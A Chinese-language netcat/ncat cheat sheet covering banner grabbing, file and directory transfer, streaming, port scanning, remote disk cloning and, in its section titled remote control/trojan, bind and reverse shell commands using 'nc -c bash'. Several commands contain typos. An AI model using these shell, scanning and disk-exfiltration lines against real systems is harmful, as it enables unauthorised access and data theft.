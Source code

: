 NC-NETCAT
======================================================================

网络工具中的瑞士军刀

1. telnet/获取banner信息
------------------------------------------------------------

作为客户端使用

::

   nv -vn <host_ip> <port>
   nc -vn 1.1.1.1 110

2. 传输文本信息
------------------------------------------------------------

* 作为客户端使用

::

  nc -nv <server_ip> <port>
  ls -l | nc -nv <server_ip> <port>

* 作为服务端使用

::

  nc -l -p <port>

应用场景: **电子取证**

  #. 取证机器启动服务器监听 `nc -l -p 4444`
  #. 被取证端启动客户端， 将收集到的文本信息传输给取证机器
     ``ls -l | nc -nv 172.31.225.210 4444``





3. 传输文件/目录
------------------------------------------------------------

#. 传输文件

   两种应用场景: 文件的侦听端口和传输方向

::
   
   A: nc -lp 333 > 1.mp4
   B: nc -nv host_A_ip < 1.mp4 -q 1

   A: nc -lp 333 < 1.mp4 -q 1
   B: nc -nv host_A_ip 333 > 1.mp4
   
   注: ``-q 1`` 传输完成 1 秒后, 关闭连接

#. 传输目录(结合其它命令)

   A: tar -cvf - music/ | nc -lp 333 -q 1

   B: nc -nv 1.1.1.1 333 | tar -xvf -

#. 加密传文件

   A: nc -lp 333 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb > 1.mp4

   B: mcrpyt --flush -Fbq -a rijndael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1

4. 流媒体服务器
------------------------------------------------------------

流媒体服务端 A: cat 1.mp4 | nc -lp 333
流媒体客户端 B: nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -

5. 端口扫描
------------------------------------------------------------

#. nc -vnz 1.1.1.1 1-65535
#. nc -vnzu 1.1.1.1 1-1024
   默认以 TCP 进行探测, -u 是以 UDP 进行探测(不太准确)

6. 远程克隆硬盘
------------------------------------------------------------

远程电子取证, 可以将目标服务器硬盘远程复制, 或者内存

#. A: nc -lp 333 | dd of=/dev/sda
#. B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1

7. 远程控制/木马
------------------------------------------------------------
两个方向的控制类比于, 主动控制和被动控制
#. 正向

   A: nc -lp 333 -c bash
   B: nc 1.1.1.1 333

#. 反向

   A: nc -lp 333
   B: nc 1.1.1.1 333 -c bash

注: Windows 用户把 bash 改成 cmd; 打开了bash的端将成为被控制端;

8. 增加的nc Ncat
------------------------------------------------------------

#. nc 缺乏加密和身份验证的能力
#. ncat 包含于 nmap 工具包中, ncat 比 nc 多出了安全验证能力;
#. 案例: 限制基于源IP地址的连接

::

     A: ncat -c bash --allow 172.31.225.75 -vnl 333 --ssl
        --allow 仅允许 172.31.225.75 连接
     B: ncat -nv 172.31.225.72 333 --ssl

#. 不同系统/平台的nc参数功能不尽相同

